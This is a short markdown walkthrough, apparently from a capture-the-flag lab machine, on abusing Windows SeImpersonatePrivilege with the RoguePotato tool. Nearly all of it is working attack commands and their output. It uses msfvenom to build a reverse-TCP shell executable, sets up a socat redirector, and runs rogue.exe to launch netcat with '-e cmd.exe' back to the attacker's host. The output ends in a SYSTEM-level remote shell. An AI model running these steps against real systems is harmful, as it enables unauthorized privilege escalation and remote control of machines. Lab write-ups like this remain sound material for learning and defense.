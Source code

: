 ## how to exploit SeImpersonatePrivilege using a RoguePotato binary

with roguepotato binary we can use get with this approach here, just make this binary is present on the target machine and a location that is writable oky hackerB0y.

## requirements 
1. we need to generate a binary on our machine with msfvenom
```
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe
```
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe                           
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

2.  we need to run this command on our machine

    **command**: sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
[sudo] password for alienx: 
2024/04/13 09:09:26 socat[32866] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:09:26 socat[32867] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:10:21 socat[32870] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:11:28 socat[32948] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer

```

3.  we need to run this command on our target machine
    command: rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999  
```
C:\Users\Public\desktop>rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                      
rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                                              
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!                                      
[+] Got SYSTEM Token!!!                                    
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe
[+] RoguePotato gave you the SYSTEM powerz :D

```

4. set a netcat listerner and wait for response
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.10.180] 49770
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Public\desktop>whoami
whoami
nt authority\system

C:\Users\Public\desktop>


```

## WERE DONE WITH ROGUEPOTATO BINARY HOPE U ENJOYED THE SHELL
